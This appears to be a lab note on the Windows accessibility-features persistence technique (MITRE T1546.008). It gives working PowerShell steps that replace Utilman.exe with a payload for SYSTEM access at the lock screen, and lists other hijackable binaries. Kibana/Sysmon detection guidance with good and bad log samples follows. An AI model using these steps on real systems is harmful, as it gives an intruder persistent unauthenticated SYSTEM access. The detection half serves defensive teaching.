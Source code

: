 # [Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)

## **Exploit syntax:**

1. Get a beacon with `system` privileges. 

2. Put a payload on the victim box if it's not already present.

3. In parrot open a blank text file and paste the following commands into it and choose either to move or copy the payload on the third line then set the `<payload path>` to the payload location on the victim box
   
    ```powershell
    takeown /f c:\windows\system32\Utilman.exe /A;
	icacls c:\windows\system32\Utilman.exe /grant administrators:F;
	rm c:\windows\system32\utilman.exe;
	<move/copy> <payload path> c:\windows\system32\Utilman.exe;
    ```
4. Save the file with as` NoobNoob.ps1` to `/tmp` on parrot-vm
5. Run
	```sh
	sudo chmod +x /tmp/NoobNoob.ps1
	```

6.  In posh, run
    ```pwoershell
	pslo /tmp/NoobNoob.ps1
    ```
7. From the login lockscreen of the windows box, press the windows key and 'U'
and the payload will execute. No login is required. Should give you System privileges.   

  
### **Affected Programs**
| Description        | Executable        | Keyboard Shortcut         |
|--------------------|-------------------|---------------------------|
| Sticky Keys        | sethc.exe         | Shift 5 times             |
| On-Screen Keyboard | osk.exe           | Windows + Control + U     |
| Utility Manager    | utilman.exe       | Windows + U               |
| Display Switcher   | DisplaySwitch.exe | Windows + P               |
| App Switcher       | AtBroker.exe      | Alt + Tab                 |
| Magnifier          | Magnify.exe       | Windows + +               |
| Narrator           | Narrator.exe      | Windows + Control + Enter |


---

## **Detection Technique:**

* Observe common Windows Accessibility Features executables and verify hashes or see if the FileVersion, Description, Product, Company and OriginalFileName fields are populating in Kibana. They populate for real Windows processes
	* sethc.exe 
	* Utilman.exe
	* osk.exe
	* Narrator.exe
	* Magnify.exe
* Within Kibana ( Using winlogbeat-* indices ):
	* Identify process creations by filtering `event.code: 1`
	* Add relevant fields to columns for search ease.
	* Correlate the `process.name` / `process.id` fields with the `process.parent.name` / `process.parent.id` fields.
	* Look at the `process.command_line` to see what the process actions were, if any.

		* GOOD process 'message' field
		```
		Process Create:
		RuleName: -
		UtcTime: 2022-09-19 13:30:14.660
		ProcessGuid: {135E01F6-6EE6-6328-BC1B-020000004700}
		ProcessId: 396
		Image: C:\Windows\System32\Utilman.exe
		FileVersion: 10.0.14393.0 (rs1_release.160715-1616)
		Description: Utility Manager
		Product: Microsoft® Windows® Operating System
		Company: Microsoft Corporation
		OriginalFileName: utilman2.exe
		CommandLine: utilman.exe /debug
		CurrentDirectory: C:\Windows\system32\
		User: meetech\judah.clark
		LogonGuid: {135E01F6-26E4-631A-EDD5-0C0000000000}
		LogonId: 0xCD5ED
		TerminalSessionId: 2
		IntegrityLevel: High
		Hashes: MD5=AA765332ACD18BCCB031A55FA64D5957,				SHA256=4B4B20BB9BFCF79C2AA4EDC39C649CA6244851B95B1F3842A187450D4E		2BEBE1,IMPHASH=B73D82E52D8EE9903A01CA25EA34B629
		ParentProcessGuid: {135E01F6-26CF-631A-AE00-000000004700}
		ParentProcessId: 5300
		ParentImage: C:\Windows\System32\winlogon.exe
		ParentCommandLine: winlogon.exe
		```
		* BAD process 'message' field
		```
		Process Create:
		RuleName: -
		UtcTime: 2022-09-19 13:28:26.093
		ProcessGuid: {1D01946E-6E7A-6328-E9D4-000000004600}
		ProcessId: 2116
		Image: C:\Windows\System32\Utilman.exe
		FileVersion: -
		Description: -
		Product: -
		Company: -
		OriginalFileName: -
		CommandLine: utilman.exe /debug
		CurrentDirectory: C:\Windows\system32\
		User: NT AUTHORITY\SYSTEM
		LogonGuid: {1D01946E-AFB5-6320-E703-000000000000}
		LogonId: 0x3E7
		TerminalSessionId: 2
		IntegrityLevel: System
		Hashes: MD5=16CD0325A81BAC885909F1EAE8E5BA29,SHA256=2B100252E36FE15C9A35F1D3A6B62A0BF2E905627D0A724C0C5B2F6D73757276,IMPHASH=56866F4C89500EE85F5CA6384C952D89
		ParentProcessGuid: {1D01946E-7D4C-6324-1767-000000004600}
		ParentProcessId: 444
		ParentImage: C:\Windows\System32\winlogon.exe
		ParentCommandLine: winlogon.exe
		```
---

## **Resources**

* https://dmfrsecurity.com/2021/09/10/accessibility-features-persistence/ 
* https://www.ired.team/offensive-security/persistence/t1015-sethc

### **Execution and Detection method explained**
* https://en.it-pirate.eu/windows-defender-atp-sticky-keys-binary-hijack-detected/